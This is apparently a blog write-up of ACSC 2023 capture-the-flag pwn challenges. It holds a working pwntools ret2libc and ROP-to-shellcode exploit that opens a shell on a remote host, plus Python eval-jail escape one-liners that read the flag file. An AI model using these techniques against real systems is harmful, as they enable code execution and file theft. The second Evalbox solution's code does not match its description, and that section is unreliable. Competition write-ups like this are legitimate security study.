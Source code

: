 ```yaml
---
title: "PWN【ACSC 2023】Writeup WP Reproduction"
authors: [nova]
tags: ['CTF', 'Pwn', 'writeup', 'wp']
---
```


This is an individual competition, but I have already forgotten things related to Web or Rev, let alone Crypto. Meanwhile, we cannot solve the hard challenges, so uh-hum, let's just say I'm not participating for the sake of the ranks LOL

<!--truncate-->

## Vaccine

The program uses `scanf` to receive our input, therefore we have no length limit, and we can just modify *s* to be the same as *s2*.

![image-20230227192106762](https://cdn.ova.moe/img/image-20230227192106762.png)

Then, we'll be able to leak the libc_address and ret2libc by simply doing a stack overflow and changing the return address.

At first, I used a wrong libc version and there were no one_gadgets available, so I used the `mprotect` and shellcode to get the shell, which made things more complicated.

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

sh = process(['./vaccine'])
sh = remote('vaccine-2.chal.ctf.acsc.asia', 1337)
elf = ELF('./vaccine')
# libc = ELF('./libc6-i386_2.31-9_amd64.so')  # wrong libc lol
libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

pop_rdi_ret = 0x401443
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

# gdb.attach(sh, 'b *0x00000000004013D7')
# pause()
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)
sh.recvuntil(b'castle\n')

libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x84420
mprotect = libc_base + libc.sym['mprotect']
read = libc_base + libc.sym['read']
pop_rsi_ret = libc_base + 0x02601f
pop_rdx_r12_ret = libc_base + 0x119211

print(hex(libc_base))
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(elf.bss() & (~0xfff)) + p64(pop_rsi_ret) + p64(0x1000) + p64(pop_rdx_r12_ret) + p64(7)*2 + p64(mprotect)
payload += p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(elf.bss() + 0x50) + p64(pop_rdx_r12_ret) + p64(0x1000)*2 + p64(read) + p64(elf.bss() + 0x50) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)

sh.sendline(asm(shellcraft.sh()))

sh.interactive()
```


## Evalbox

This is a really interesting challenge.

```python
#!/usr/bin/env python3
import seccomp

if __name__ == '__main__':
    f = seccomp.SyscallFilter(defaction=seccomp.ALLOW)
    f.add_rule(seccomp.KILL, 'close')
    f.load()
    eval(input("code: "))
```

It will `eval` anything we input, but it also prohibits all function calls for `close`.

In `Dockerfile`, we know that we should first get the filename of the flag.

At first, I thought there might be some differences between `seccomp.so` and [seccomp.pyx](https://github.com/seccomp/libseccomp/blob/main/src/python/seccomp.pyx). So I tried to compile this `.pyx` file and attempted to use bindiff between these two files, but I failed :(

But there are actually many ways to bypass this jail.

### Solution 1

This is an exp in a pure Python way.

We can use `os.scandir(os.open(".", 0))` to get all files in the `.` directory, and we can use `print(os.open(filename, 'r').read())` to get the content of the file.

Let's just shorten it to one line.

```python
print(os:=__import__('os'), d:=os.scandir(os.open(".", 0)), f:=open(next(filter(lambda x: x.name.startswith("flag"), d))), f.read(), sep='\n\n')
```

### Solution 2

We can open `/proc/self/mem` and write shellcode on the `.text` segment.

```python
print(os:=__import__('os'), f:=open('flag-31540753807ba7099ea27997ca43e280.txt', 'r'), f.read())
```

:::info
This Content is generated by ChatGPT and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::

<!-- AI -->
